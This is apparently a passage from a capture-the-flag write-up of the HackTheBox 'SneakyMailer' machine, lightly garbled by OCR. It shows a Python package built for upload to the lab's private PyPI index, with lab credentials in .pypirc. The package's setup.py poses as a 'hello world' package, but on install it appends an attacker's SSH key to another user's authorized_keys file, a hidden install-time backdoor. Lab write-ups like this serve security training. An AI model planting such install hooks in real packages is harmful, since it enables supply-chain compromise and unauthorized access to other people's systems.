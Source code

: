 ```shell
find .
.
./cfx-key
./cfx-key/__init__.py
./.pypirc
./setup.cfg
./README.md
./setup.py
```
When we are running a python script, `__init__.py` is the file which it looks for loading the package.

- Step2 : Now using nano we'll input data into these files which is required for the package to run.

Adding an example function to `__init__.py` inside cfx-key directory

```shell
www-data@sneakymailer:/tmp/coldfx/cfx-key$ cat __init__.py
def hello_word():
print(“hello world”)
```
Defining server & authentication details into `.pypirc`:

```shell
www-data@sneakymailer:/tmp/coldfx$ cat .pypirc
[distutils]
index-servers = cfx-key

[cfx-key]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```
Adding metadata:

```shell
www-data@sneakymailer:/tmp/coldfx$ cat setup.cfg
[metadata]
description-file = README.md
```

- Step3 : Creating `setup.py` to a ssh key to low's account:

```python
from setuptools import setup

try:
    with open ('/home/low/.ssh/authorized_keys', 'a') as fl:
        fl.write ("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+OOk/amwKEW/gfCikP+y0hqTkgXyICKUegxd2bZCr7CdbACbL+zJn9cV6T4XutmP6JOetxFytws9yO01X2kxkRRhIKH8DFpall5smoaJ1biwOsd6QHQJ7QLsMQIyzhy2qbq1rmi9ubSagBU9qmV4XbQwIM8fpapyV [..SNIP..] root@cfx")

except:
    setup(
    name='cfx-key',
    packages=['cfx-key'],
    description='Hello world enterprise edition',
    version='0.1',
    url='http://sneakycorp.htb',
    author='coldfusionx',
    author_email='coldfusionx@htb',
    keywords=['pip','cfx-key','example']
    )
```
